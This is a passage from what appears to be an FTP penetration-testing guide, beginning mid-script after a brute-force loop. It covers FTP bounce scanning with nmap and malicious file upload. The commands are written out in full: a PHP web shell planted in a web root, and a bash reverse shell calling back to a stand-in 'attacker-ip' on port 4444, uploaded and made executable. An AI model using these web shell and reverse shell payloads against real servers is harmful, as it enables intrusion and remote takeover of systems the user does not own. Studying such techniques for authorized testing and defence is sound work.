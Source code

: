 ```bash
EOF
    done < "$PASSLIST"
done < "$USERLIST"
```

### Attack Vector 3: FTP Bounce Attacks

#### Understanding FTP Bounce
FTP bounce attacks exploit the FTP PORT command to:
- Scan internal networks from FTP server
- Bypass firewall restrictions
- Attack services through FTP server as proxy

#### FTP Bounce Detection
```bash
# Nmap FTP bounce detection
nmap --script ftp-bounce -p 21 <target>

# Manual bounce testing
ftp <target>
ftp> PORT 192,168,1,1,0,22    # Try to connect to 192.168.1.1:22
# If successful: 200 PORT command successful
# If blocked: 425 Can't build data connection
```

#### FTP Bounce Exploitation
```bash
# Using nmap through FTP bounce
nmap -b anonymous:password@<ftp-server> <internal-target>

# Bounce scan through compromised FTP server
nmap -p 21-23,25,53,80,110,143,443,993,995 -b ftp-user:ftp-pass@<ftp-server> <internal-network>
```

### Attack Vector 4: Malicious File Upload

#### Web Shell Upload (if FTP serves web content)
```bash
# Create PHP web shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Upload to web-accessible directory
ftp> cd /var/www/html
ftp> put shell.php

# Access via web browser
# http://target/shell.php?cmd=whoami
```

#### Reverse Shell Upload
```bash
# Create reverse shell script
echo 'bash -i >& /dev/tcp/attacker-ip/4444 0>&1' > reverse.sh

# Upload to executable directory
ftp> put reverse.sh
ftp> site chmod +x reverse.sh

# Execute through other vulnerabilities or scheduled tasks
```

---